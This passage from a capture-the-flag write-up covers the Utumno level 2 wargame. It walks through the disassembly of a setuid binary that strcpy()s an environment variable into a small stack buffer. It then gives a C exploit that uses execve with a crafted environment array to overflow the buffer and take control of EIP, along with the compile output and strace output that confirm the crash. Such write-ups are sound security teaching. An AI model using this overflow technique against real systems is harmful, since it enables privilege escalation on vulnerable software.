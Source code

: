 So, as we don't have any arguments, we will play with environment variables. Here, we can do whatever we want, as we are using *execve()* all the environment variables are cleared. Now, with that assumptions, let's analyze the second part of the code.

```nasm
0x0804844b <+0>:	push   ebp
0x0804844c <+1>:	mov    ebp,esp
0x0804844e <+3>:	sub    esp,0xc
0x08048451 <+6>:	cmp    DWORD PTR [ebp+0x8],0x0
0x08048455 <+10>:	je     0x804846b <main+32>
0x08048457 <+12>:	push   0x8048510
0x0804845c <+17>:	call   0x8048310 <puts@plt>
0x08048461 <+22>:	add    esp,0x4
0x08048464 <+25>:	push   0x1
0x08048466 <+27>:	call   0x8048320 <exit@plt>
0x0804846b <+32>:	mov    eax,DWORD PTR [ebp+0xc]; Get the first pointer of envp
0x0804846e <+35>:	add    eax,0x28; Add 40 to get the 10th pointer
0x08048471 <+38>:	mov    eax,DWORD PTR [eax]; Set it as source string for strcpy()
0x08048473 <+40>:	push   eax
0x08048474 <+41>:	lea    eax,[ebp-0xc]; Set ESP as destination for strcpy()
0x08048477 <+44>:	push   eax;
0x08048478 <+45>:	call   0x8048300 <strcpy@plt>; Call strcpy()
0x0804847d <+50>:	add    esp,0x8
0x08048480 <+53>:	mov    eax,0x0
0x08048485 <+58>:	leave
0x08048486 <+59>:	ret
```

Now, we need to create an array with **11** values knowing that the 10th value will probably overflow *strcpy()* and the last value will be NULL (check the picture I showed you earlier).

```c
#include <unistd.h>

void main() {
    char *envp[] = {"", "", "", "", "", "", "", "", "",
        "AAAABBBBCCCCDDDDEEEEFFFFAAAA",
        NULL};
    execve("/utumno/utumno2", NULL, envp);
}
```

This code *segfault* but *strace* show that we took control of EIP.

```bash
utumno2@utumno:/tmp/ax_test$ gcc -m32 -static execve.c -o execve
utumno2@utumno:/tmp/ax_test$ ./execve
Segmentation fault

utumno2@utumno:/tmp/ax_test$ strace ./execve
execve("./execve", ["./execve"], [/* 21 vars */]) = 0
strace: [ Process PID=1008 runs in 32 bit mode. ]
brk(NULL)                               = 0x56558000

... [removed] ...

--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x45454545} ---
+++ killed by SIGSEGV (core dumped) +++
```
